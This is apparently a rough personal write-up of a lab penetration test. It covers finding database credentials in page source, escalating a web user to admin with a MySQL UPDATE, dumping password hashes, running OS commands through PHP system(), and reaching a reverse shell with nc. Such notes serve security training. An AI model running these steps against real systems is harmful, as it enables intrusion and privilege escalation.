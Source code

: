 
```bash

<!-- = '127.0.0.1'; = 'dbuser'; = 'xXxyYyzZz789789)))'; = 'footracking'; = mysqli_connect(, , , );-->

```


found in the source code after loggin with tracking1 or tracking2
we can access the db again with more access and alter the privileges of the tables
```bash
	mysql -u dbuser -p -P 63306 -h 172.16.64.92  

	use <database>;
	select * from <table>;

	update <table> set <collumn>='<value>' where collumn='<value>';
```
```bash
MySQL [footracking]> update users set adm='yes' where username='tracking2';
Query OK, 1 row affected (0.325 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [footracking]> select * from users;
+----+-----------+----------------------------------+-----+
| id | username  | password                         | adm |
+----+-----------+----------------------------------+-----+
|  1 | fcadmin1  | c5d71f305bb017a66c5fa7fd66535b84 | yes |
|  2 | fcadmin2  | 14d69ee186f8d9bbeddd4da31559ce0f | yes |
|  3 | tracking1 | 827ccb0eea8a706c4c34a16891f84e7b | yes |
|  4 | tracking2 | e10adc3949ba59abbe56e057f20f883e | yes |
+----+-----------+----------------------------------+-----+
```

log in the web site: with tracking or tracking2 that we changed to administrator

now we have admin painel:
```bash
we can use phpinfo(); to show that is vulnerable
```

and use system('command');

Result for system('ls'); 

assets includes index.php login login.php logout.php panel.php tracking.php tracking2.php 



After this point I was tired...

anyway 172.16.64.92

we need to use gobuster a lot to find paths

then make a php file to update the file of the web


- run php-reverse-shell and nc e voila
